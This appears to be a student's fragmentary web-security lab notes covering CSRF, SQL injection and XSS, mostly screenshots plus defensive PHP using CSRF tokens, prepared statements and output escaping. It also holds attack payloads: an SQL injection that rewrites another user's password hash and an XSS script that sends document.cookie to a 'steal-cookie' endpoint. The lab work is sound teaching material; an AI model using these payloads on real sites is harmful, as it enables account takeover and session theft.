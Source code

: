 # SOP 
1. Using JS to access DOM objects of the web site

   ![image](https://github.com/user-attachments/assets/5f48d35c-88ce-4ae1-8ef4-0ada9fc8e58d)

User Authentication: Since the victim is already logged in to mysite.com, their browser will include the valid session cookies or authentication tokens automatically when the request is sent to http://mysite.com/transfer.php.
Trust Misuse: The server assumes the request comes from a legitimate user and processes it, not realizing it was crafted by an attacker.

   docker exec -it naughty_ramanujan sh -l

 echo "10.9.0.5 mysite.com" >> /etc/hosts

 echo "10.9.0.5 darksite.com" >> /etc/hosts


 ![image](https://github.com/user-attachments/assets/c1bc280a-9aeb-4216-aeb3-4566f35fed3e)


 ![image](https://github.com/user-attachments/assets/cc3b1826-63fc-4266-9f4a-ff88d6614837)


4c. Fail because The User Must Be Logged In: The victim must already be authenticated on http://mysite.com with a valid session.

4d. Enter the cookie value 

![image](https://github.com/user-attachments/assets/59a8a108-dcf8-4732-887c-8c2b59dc4846)


![image](https://github.com/user-attachments/assets/4132d313-715b-44f8-99e0-c16a080c8b91)


```php
<?php
session_start();

// Generate CSRF token if not already set
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32)); // Generate a new token
}

// Authenticate the user
if (!isset($_SESSION['authenticated']) || !$_SESSION['authenticated']) {
    header('Location: login.php');
    exit();
} else {
    echo "Welcome, " . $_SESSION['username'] . "!";
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Validate CSRF token
    if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        die('CSRF token validation failed!');
    }

    $amount = $_POST['amount'];
    $to = $_POST['to'];

    // Transfer the amount
    $balance = $_SESSION['balance'];
    if ($balance >= $amount) {
        $balance -= $amount;
        $_SESSION['balance'] = $balance;
        // Perform transfer
        $transfer = "Transfer {$amount} to {$to}<br>";
        echo $transfer;
        echo "Amount left {$balance}<hr>";
    } else {
        die('Insufficient balance!');
    }
}
?>

<form action="" method="POST">  
    <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
    <label for="amount">Amount:</label>
    <input type="number" id="amount" name="amount" required>
    <br>
    <label for="to">To:</label>
    <input type="text" id="to" name="to" required>
    <br>
    <input type="submit" name="transfer" value="Transfer">
</form>
```

# XSS 

   console.log(document.cookie)

4.4.1. Modify your own salary.

![image](https://github.com/user-attachments/assets/dfc5832f-4204-4ed6-a1e8-f36776b8cd6d)


![image](https://github.com/user-attachments/assets/4636f1c2-4c86-45bf-91b1-d3b995e00d42)


    

4.4.2. Modify other people’ salary


![image](https://github.com/user-attachments/assets/9d3fec17-d006-4ecd-838a-d2559d03c986)


![image](https://github.com/user-attachments/assets/b98a910c-8c37-4243-9e16-9cd45f33fcfb)




![image](https://github.com/user-attachments/assets/b6a0c010-b8b5-4e9a-98b2-fc76dae9dc4b)


son ' , password = 'c22b5f9178342609428d6f51b2c5af4c0bde6a42' where name='Boby' --  

![image](https://github.com/user-attachments/assets/13d117b7-2d02-4744-b40b-2fdbf48cc81c)



![image](https://github.com/user-attachments/assets/1ccfbcf9-f3b3-4964-8355-c1fe30ef673b)



4.5. Countermeasure – Prepared Statement


![image](https://github.com/user-attachments/assets/e44d37c4-daa6-40a9-95b2-9dae628f460d)


![image](https://github.com/user-attachments/assets/10283733-2f68-4018-8e2b-c11f24f8aa21)


![image](https://github.com/user-attachments/assets/72bf67de-3967-4752-bda8-8f4cceefd5fe)




```php
<?php
// Function to create a sql connection.
function getDB() {
  $dbhost="10.9.0.6";
  $dbuser="seed";
  $dbpass="dees";
  $dbname="sqllab_users";

  // Create a DB connection
  $conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
  if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error . "\n");
  }
  return $conn;
}

$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

// create a connection
$conn = getDB();

// Prepare the SQL statement
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn FROM credential WHERE name = ? AND Password = ?");
if ($stmt === false) {
    die("Prepare failed: " . htmlspecialchars($conn->error));
}

// Bind parameters
$stmt->bind_param("ss", $input_uname, $hashed_pwd); // "ss" means two strings

// Execute the statement
$stmt->execute();

// Get the result
$result = $stmt->get_result();
// do the query
//$result = $conn->query("SELECT id, name, eid, salary, ssn
//                        FROM credential
//                        WHERE name= '$input_uname' and Password= '$hashed_pwd'");
if ($result->num_rows > 0) {
  // only take the first row
  $firstrow = $result->fetch_assoc();
  $id     = $firstrow["id"];
  $name   = $firstrow["name"];
  $eid    = $firstrow["eid"];
  $salary = $firstrow["salary"];
  $ssn    = $firstrow["ssn"];
}


// close the sql connection
$stmt->close();
$conn->close();
?>
```

change this code  



```php
// Prepare the SQL statement
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn FROM credential WHERE name = ? AND Password = ?");
if ($stmt === false) {
    die("Prepare failed: " . htmlspecialchars($conn->error));
}

// Bind parameters
$stmt->bind_param("ss", $input_uname, $hashed_pwd); // "ss" means two strings

// Execute the statement
$stmt->execute();

// Get the result
$result = $stmt->get_result();
// do the query
//$result = $conn->query("SELECT id, name, eid, salary, ssn
//                        FROM credential
//                        WHERE name= '$input_uname' and Password= '$hashed_pwd'");






$stmt->close();


```
![image](https://github.com/user-attachments/assets/db627429-6bfe-4c30-8f21-2798e37b5e1e)










Web security – XSS – File Upload Vulnerabilitie 


<script> console.log(document.cookie); </script>


![image](https://github.com/user-attachments/assets/4d76d50b-7a72-4af8-8bbe-bd315f9f5cf1)



<script>var stolenCookies = encodeURIComponent(document.cookie);window.location = `http://localhost:5173/steal-cookie?cookies=${stolenCookies}`;</script>

![image](https://github.com/user-attachments/assets/5136c38a-1352-4645-987c-6e2d871aea4f)


![image](https://github.com/user-attachments/assets/65cb8be8-68de-4dfd-87b4-dc0a280753de)



```php
<?php
  if (isset($_POST['search'])) {
    $query = htmlspecialchars($_POST['search'], ENT_QUOTES, 'UTF-8');
    echo "You searched for: " . $query; // Escaped output to prevent XSS
  }
?>
<form action="" method="POST">
  <input type="text" id="search" name="search" required>
  <input type="submit">
</form>
```
![image](https://github.com/user-attachments/assets/658879ed-7ef6-4c07-8df5-d7c6b3ca1b2f)


![image](https://github.com/user-attachments/assets/f2b162c3-fe61-4323-a43c-a516a66375e5)


4.3 Stored-XSS Attac

![image](https://github.com/user-attachments/assets/0741e01e-6577-4141-8338-1d58d9e396c9)

4.3.1.c 




